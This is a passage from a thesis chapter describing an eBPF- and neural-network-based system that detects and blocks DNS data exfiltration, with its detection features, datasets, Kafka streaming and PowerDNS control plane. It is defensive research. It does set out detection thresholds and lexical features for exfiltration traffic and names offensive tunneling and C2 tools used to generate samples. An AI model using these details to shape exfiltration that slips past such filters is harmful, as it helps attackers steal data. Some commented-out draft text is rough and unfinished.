
\includegraphics[width=0.8\textwidth]{UWThesis/images/udp-exfil-tunnel-netdev-tun_tap.png}
\caption{eBPF Agent Prevention flow over Tun/Tap Driver kernel function}
\label{sec:data_plane_tunnel_netdev}
\end{figure}

\subsection{Feature Analysis in Data Plane}
\label{sec:features}
Features used by the eBPF agent in the data plane are derived from real-world DNS exfiltration traffic. Selection was guided by known patterns in DNS tunneling, C2 channels, and encoding behaviors observed in open source and proprietary DNS exfiltration tools and real-world attack logs. The goal is to enable real-time filtering of malicious queries with minimal overhead while adhering to DNS protocol constraints defined in RFC 1035. DNS packets over UDP are limited to 512 bytes, with domain names capped at 255 characters. Individual labels must conform to structural limits (typically 63 characters), and payload-bearing query types such as TXT and NULL can embed encoded data. Although extensions like EDNS and TCP-based DNS allow larger payloads, most abuse still occurs over standard UDP. To handle this, feature selection is divided into two stages: \hyperref[sec:kernel-features]{kernel-space features}, enforced by kernel eBPF programs for inline filtering and classification; and \hyperref[sec:userspace-features]{userspace features}, analyzed by a deep learning model to detect stealthy or obfuscated payloads.

% \titlespacing{\subsection}{0pt}{*0.8}{*0.4}
\subsubsection{Kernel eBPF TC program classification and filtering features}
\label{sec:kernel-features}
Due to the instruction count and complexity limits enforced by the eBPF verifier, DPI is restricted to parsing only the first DNS question record. This aligns with modern DNS usage, where queries typically contain a single question; multiple questions are treated as an anomaly. Numeric features such as domain length and label count are checked against the thresholds configured during initialization. Suspicious query types like `NULL` and `TXT`—which may carry arbitrary payloads - are flagged, as are query classes outside 'Internet' (IN), according to RFC 1035. These features are recorded in a kernel feature map and used to classify packets in real time. Packets that exceed thresholds are dropped; those deemed suspicious are redirected or clone-redirected depending on agent mode; all others are marked benign. This logic is applied consistently across both active and passive modes, including encapsulated traffic, where tunnel headers are removed before inspection. The definitions of kernel-level features are shown in \hyperref[sec:feature-kernel]{Table 4.3}.

\subsubsection{Userspace deep learning model features}
\label{sec:userspace-features}
The deep learning model is trained on eight lexical features detailed in \hyperref{sec:feature-userspace}{userspace features}. These features were selected through an in-depth analysis of DNS exfiltration behavior, based on real-world attack samples, open-source C2 toolkits, and proprietary DNS tunneling frameworks. The focus is on detecting encoded payloads embedded in DNS queries by analyzing structural and statistical anomalies in the query format. Specifically, malicious queries often exhibit either an unusually high number of labels (subdomains) or fewer labels with unusually long lengths, both reaching the peak of the limits, as explained in RFC 1035. Moreover, encoding algorithms as explained before often introduce high entropy and randomness in the payload. These characteristics, derived from protocol-aware inspection and empirical adversary behavior, form the input to the model. Table \hyperref[sec:feature-userspace]{Table 4.4} summarizes the complete set of features.


\subsection{Datasets}
\label{sec:dataset}
The deep learning model is trained on a synthetically generated dataset constructed by combining three distinct sources, resulting in a total of 3.8 million domain samples evenly split between benign and malicious.
\begin{enumerate}[nosep]
    \item \textbf{Benign SLDs from Cisco:} The top 1 million SLDs from Cisco are not used for training, but are loaded into an in-memory LRU cache by the eBPF agent. This avoids unnecessary inference on common and trusted domains and improves performance. The cache is fully reprogrammable from the control plane.
    \item \textbf{ISP-Captured Dataset:} The core training data set is sourced from~\citeauthor{ziza2023dns}, consisting of live-sniffed DNS traffic from an ISP, with approximately 50 million samples that span both benign and malicious traffic~\cite{ziza2023dns}.
    \item \textbf{Synthetic Exfiltration Dataset:} To address class imbalance, a custom data set was created using open source tools such as \texttt{DET}, \texttt{DNSExfiltrator}, \texttt{DNSCat2}, \texttt{Sliver}, \texttt{Iodine}, and internal DNS exfiltration scripts. These samples include a wide range of obfuscation techniques (see \hyperref[dns_payload_obfuscation]{Table~2.1}) across various file types—text (e.g., \texttt{.txt}, \texttt{.md}), image (e.g., \texttt{.jpg}, \texttt{.png}), and video (e.g., \texttt{.mp4})
\end{enumerate}


% % feature table 1 Kernel
\begin{table}[ht]
\centering
\resizebox{\textwidth}{!}{
\begin{tabular}{|c|l|}
\hline
\textbf{Feature} & \textbf{Description} \\
\hline
\texttt{subdomain\_length\_per\_label} & Length of the subdomain per DNS label. \\
\texttt{number\_of\_periods} & Number of dots (periods) in the hostname. \\
\texttt{total\_length} & Total length of the domain, including periods/dots. \\
\texttt{total\_labels} & Total number of labels in the domain. \\
\texttt{query\_class} & DNS question class (e.g., IN). \\
\texttt{query\_type} & DNS question type (e.g., A, AAAA, TXT). \\
\hline
\end{tabular}
}
\caption{DNS Features in Kernel}
\label{sec:feature-kernel}
\end{table}


% feature table 2 userspace
\begin{table}[ht]
\centering
\resizebox{\textwidth}{!}{
\begin{tabular}{|c|l|}
\hline
\textbf{Feature} & \textbf{Description} \\
\hline
\texttt{total\_dots} & Total number of dots (periods) in DNS query. \\
\texttt{total\_chars} & Total number of characters in DNS query, excluding periods. \\
\texttt{total\_chars\_subdomain} & Number of characters in the subdomain portion only. \\
\texttt{number} & Count of numeric digits in DNS query. \\
\texttt{upper} & Count of uppercase letters in DNS query. \\
\texttt{max\_label\_length} & Maximum label (segment) length in DNS query. \\
\texttt{labels\_average} & Average label length across the \texttt{request}. \\
\texttt{entropy} & Shannon entropy of the DNS query, indicating randomness. \\
\hline
\end{tabular}
}
\caption{DNS Features in Userspace}
\label{sec:feature-userspace}
\end{table}


\subsection{Deep Learning Model Architecture}
\label{sec:model}
The deep learning component operates in userspace to enhance the detection accuracy of the eBPF agent, especially for identifying obfuscated DNS payloads—capabilities that are infeasible to implement directly in kernel space due to eBPF verifier constraints.
Built with TensorFlow, the model is a sequential dense neural network using eight lexical input features (as described earlier). It comprises three hidden layers with 16 neurons each, followed by a sigmoid-activated output neuron for binary classification. ReLU is used between layers, and the model is optimized using Adam with a learning rate of 0.001 and binary cross-entropy loss. Training is carried out over 25 epochs on a dataset of approximately 3.8 million entries, balancing convergence and overfitting prevention.
To optimize training performance, TensorFlow’s shuffler and prefetch mechanisms are used, and the process is parallelized across multiple GPUs using \texttt{MirroredStrategy}. Once trained, the model is exported to the ONNX format (Open Neural Network Exchange) for efficient inference. The ONNX model is integrated into the eBPF agent as a submodule via Unix domain sockets (IPC), using ONNX Runtime. Although this design introduces slight inference latency, it is mitigated by a caching layer inside the agent, consisting of an LRU-based blacklist and a domain-level cache. ONNX was selected for its runtime efficiency and broad interoperability, despite its limited tooling in the Golang ecosystem. The model is dynamically quantized (e.g., float32 $\rightarrow$ int8), which reduces memory usage and inference time. Compared to formats such as HDF5 or Pickle, ONNX provides a compact, performant graph representation, ensuring that the agent maintains a minimal footprint even under peak load. \hyperref[sec:model_arch]{Figure~4.7} illustrates the quantized ONNX model architecture.




\begin{figure}[htbp]

\includegraphics[width=1\textwidth]{UWThesis/images/DNN_Model_Arch.png}
\caption{DNS Data obfuscation detection Deep Learning Model Architecture}
\label{sec:model_arch}
\end{figure}





% The eBPF node-agent running in userspace at the endpoint in privileged context interacts with kernel network stack over the kernel TC layer leveraging eBPF as a classless leaf QDISC to behave both as a classifier for TC in kernel subsysttem as well as a  used for egress packet scheduling to the network device driver by injecting eBPF programs behaving as filters encapsulating logic for DPI, In addition to  core kernel network datapath these agents also inject programs over kernel LSM (Linux Security Modules), syscall for raw tracepoints for secured access control and injection and verification of the integrity of eBPF programs in kernel via kernel keyring and cert verification, gathering metrics related to process scheduling and finally kernel syscall layer to terminate the malicious implant process, once exceed threshold of being detected and prevented carrying data exfiltration of C2 channels over DNS and finally eBPF raw kernel probes over netdev device driver functions to trigger events from kernel emitted via eBPF ring buffer polled by agent in userspace to dynamically inject kernel security eBPF programs over these virtual net devices to prevent any form of encapsulated exfiltration  The entire implementation is  divided two main root categories first describing the flow how agent operates and prevents DNS exfiltration  for non-encapsulated network traffic often done via physical network devices at the endpoint, followed with breach prevention for encapsulated traffic via virtual network interfaces. Implementation for each type describes how the agent prevents data exfiltration over DNS over egress direction of kernel network datapath, eBPF programs implementation within kernel TC, ebpf map handling, and finally userspace agent tasks including deep learning model inference for deep scanning suspicious traffic and resending packets via high speed kernel datapath and addon eBPF validation post resend to reduce attack vectors for timing and brute-force attacks, in both phases of operation active and passive modes. The term DNS data exfiltration refers to all forms of exfiltration packets send irrespective of techniques in userspace (DNS C2, DNS tunneling, DNS raw exfiltration). The eBPF program over kernel TC faciliate both mode of operation active / passive based on how the userspace agent loader injects the program configured via agent loader config. The userspace behav For both both of operations active and passive, single kernel TC programs faciliate 











% \subsection{Active Phase}
% Post injection of single eBPF TC CLSACT QDISC filter with highest priority attached to all the physical network devices at the endpoint in egress direction as a leaf filter in the hierarchical structure kernel TC if the network devices are using classful filters or classless filters, to intercept every single packet flowing over egress direction at the endpoint. In active mode, the primary goal for the TC QDISC filter is to parse the DNS layer in sk\_buff for enhanced intelligence to detect exfiltrated DNS packets and drop, redirect, forward the packets upstream. The eBPF programs utilizing default kernel CLSACT QDISC action post classification of DNS packets using TC\_ACT\_SHOT for dropping the packet, TC\_ACT\_OK to forward packet, and SKB kernel function helper SKB\_redirect to redirect the packet to rx quesues of  different netdev at the endpoint.







%  Trafic without encapsulation (i.e., not using virtual interfaces or overlay networks) have a single header and payload, with protocol layers determined by the transfer protocol. Based on the structure of such packets, the DPI is fundamentally divided into two main scenarios based on different Layer 3 (network) and Layer 4 (transport) protocols. Since DNS being and Layer 7 or Application layer protocol, for a packet to have \ac{dns} in its application data, it requires the packet to either have \texttt{ETH\_P\_IPV4} (IPv4) or \texttt{ETH\_P\_IPV6} (IPv6) as the network layer, and \texttt{IPPROTO\_UDP} (UDP) or \texttt{IPPROTO\_TCP} (TCP) as Layer 4 for transport. Because the agent at the endpoint only considers potential DNS exfiltration prevention over UDP, if DNS packet over TCP is found it is allowed to passthrough assuming traffic filtering would be done over DNS server as explained before. Hence only considering DNS traffic over UDP, the DPI  is performed in the following manner to extract the \ac{dns} layer in raw bytes present in the SKB. The forwarding decision in the filtering is based on the mode of operation the agent in userspace decided to inject these programs which would be explained in depth in consecutive sections. The next sections explains complete end to end flow how DNS exfiltrated packets are prevented from kernel eBPF programs and userspace over egress and ingress directions of network datapath for both active and passive modes.


% Active Mode:
% If the agent is running at the endpoint in an active mode, the primary goal is to prevent almost no exfiltrated packets to passthrough over default ports used for DNS as per RFC 1035. 
 
 
 
 
%  While the security framework also performs DPI over raw socket buffers with transport via non-standard DNS ports to prevent packet tunneling of DNS payloads over other ephemeral ports used by different protocols, the following explains the different scenarios over which \ac{dpi} is performed. It further details the filtering algorithm used in the eBPF traffic control direct-action filter to either drop, forward, or redirect the egress packet to a different interface for further \ac{dpi}.











% % \ElseIf{Namespace handles clone redirected DNS traffic (non-standard ports)}{
% %     Fetch \texttt{val = \{dst\_port, src\_port, isUdp, isPacketRescannedAndMalicious\}} 
% %     from \texttt{dns\_clone\_redirect\_map}\;
% %     \If{Packet contains DNS layer}{
% %         Blacklist SLD for all DNS queries\;
% %         \textbf{return};
% %     }
% %     \Else{
% %         Set \texttt{val.isPacketRescannedAndMalicious = true}\;
% %         Update \texttt{dns\_clone\_redirect\_map}[\texttt{dst\_port}] = \texttt{val}\;
% %     }
% % }

\begin{table}[h]
\small
\newcolumntype{L}[1]{>{\raggedright\arraybackslash}p{#1}}
\centering
\begin{tabular}{|L{5cm}|L{10cm}|}
\hline
\textbf{Kafka Topic Name} & \textbf{Description} \\
\hline
\texttt{exfil-sec} & Kafka topic used by the eBPF agents in data plane to stream prevented DNS threat events. \\
\hline
\texttt{exfil-sec-infer-controller} & Topic used by the controller to publish dynamic domain blacklists to DNS servers for data plane eBPF agent update userspace caches. \\
\hline
\end{tabular}
\caption{Kafka Stream Topics Used in the eBPF agent}
\label{tab:kafka-topics}
\normalsize
\end{table}



% \label{sec:data_plane_ingress_sniff}
% \begin{figure}[h]
% 
\includegraphics[width=1\textwidth]{UWThesis/images/udp-exfil-ingress-sniff-flow.png}
% \caption{eBPF Agent DNS Exfiltration Prevention Flow ingress DNS traffic analysis}
% \end{figure}

% \vspace{-25pt}
\subsection{Thread Events Streaming and Metrics Exporters}
\label{sec:threat-event-streaming}
When an eBPF agent flags a DNS packet as malicious in the data plane and contains an exfiltrated payload, the agent streams a threat event using Kafka producers. These producers are embedded in the compiled eBPF userspace binary and configured to send data to a remote Kafka broker. Each eBPF agent also includes Kafka consumers. Each agent is assigned a unique application ID derived from the local node’s IP address, combined with a randomly generated ID to form the Kafka consumer group ID. This design ensures strong decoupling between agents, enabling massive horizontal scalability. Data plane nodes can scale independently without relying on a shared consumer group. Kafka producers operate asynchronously, allowing the agent to emit threat events while concurrently consuming control plane topics streamed by the inference controller. These topics carry resolved malicious domains, enabling each data plane node to update its local blacklist even if the exfiltration was detected on a different node, allowing cross-node security enforcement in the data plane. Additionally, consumed events allow eBPF agents across nodes to apply dynamic Layer 3 filters in the kernel, supporting cross-protocol correlation. While threat events focus on detected exfiltration attempts, kernel-space eBPF programs also export deep system-level metrics. These metrics are exposed via Prometheus, allowing the controller to scrape and monitor them across all nodes in real time. This centralized observability supports both the analysis of blocked threats and continuous system behavior tracking. \hyperref[tab:kafka-topics]{Table 4.5} explains the details.
\footnote{Appendix A provides additional details on the metrics exported by the eBPF agent.}
% For details, see \hyperref[sec:dp_ebpf_node_metrics]{eBPF node metrics}.

\section{Control Plane}
As illustrated in the overview of the component components of the control plane, the controller is designed to be entirely stateless, relying on the GPSQL backend used by PowerDNS for DNS state management and RPZ zones to track malicious domains. The control plane currently consists of a single Tomcat web server, with Spring Kafka consumer integrated to consume malicious threat events from the exfil-sec Kafka topic. These events are emitted by all endpoints in the data plane and contain blacklisted domain metadata and node-level context that identify where the threat was detected. Upon consuming these events, the control plane dynamically updates the RPZ backend with the (SLDs) associated with malicious domains in threat events. This update enforces DNS-level security enforcement, which causes the DNS server to start dropping any queries to these domains. To optimize performance and prevent malicious DNS queries from ever reaching the DNS server again once blacklisted, the control plane also writes to another Kafka topic (exfil-sec-infer-controller). This topic is consumed by all data plane nodes to rehydrate their local malicious userspace caches, effectively reprogramming the eBPF agents at each endpoint to drop related packets immediately at the endpoint, reducing network hops. For enhanced security, the control plane additionally performs DNS resolution on the malicious domains to extract their corresponding Layer 3 addresses. These addresses, which  represent active C2 or tunneling servers on the public internet, are also streamed in exfil-sec-infer-controller Kafka topic used to dynamically enforce layer 3 network policies inside the kernel post consumed by the eBPF agents deployed across the data plane for cross protocol correlation. With fully asynchronous, bidirectional communication between the control plane and the data plane via Kafka, the architecture enables continuous re-programmability of data plane nodes to enforce dynamic kernel-level security policies. It also supports the horizontal scalability of individual components crucial for production-grade cloud environments. This design directly targets and stops DGA, providing robust protection against mutation in both Layer 3 and Layer 7.


\section{Distributed Infrastructure }
As described earlier in the security framework overview, the distributed infrastructure consists mainly of a PowerDNS authoritative server, a PowerDNS recursor, a PostgreSQL-based GPSQL backend, Kafka brokers, and Prometheus scrapers. These scrapers collect metrics exposed by eBPF agents deployed in the data plane. Notably, eBPF agents do not handle malicious DNS exfiltration over TCP due to the complexity of the TCP state machine and congestion control within the kernel. To address this, TCP-based DNS exfiltration attempts are intercepted in userspace by PowerDNS recursor query interceptors acting as middleware. Because the PowerDNS recursor supports only Lua-based interceptors, a custom Lua module was developed. This interceptor extracts features from DNS queries received over TCP and performs inference using a serialized ONNX deep learning model. Leveraging Lua’s lightweight, high-performance nature, the interceptor accesses the GPSQL backend’s RPZ table, which contains known malicious domains. This enables returning \texttt{NXDOMAIN} responses for blacklisted queries, skipping inference to improve throughput.
Furthermore, the interceptor employs PowerDNS internal domainsets - fast, in-memory trie-based caches of malicious domains detected over TCP. These caches enable rapid filtering of repeated exfiltration attempts. To maintain accuracy without inference overhead, the domainsets periodically synchronize with the RPZ, ensuring up-to-date enforcement. \footnote{Appendix B explains Lua interceptor filtering DNS exfiltration over TCP.}



% \label{sec:data_plane_overview_deep}
% \begin{figure}[H]
% 
\includegraphics[width=1\textwidth]{UWThesis/images/dataplane_deep.png}
% \caption{Data Plane eBPF Agent Complete flow}
% \end{figure}





\chapter{Evaluation}
This chapter evaluates the effectiveness of the security framework in a distributed setting with comprehensive evaluation results and analysis.


\section{Environment Setup}
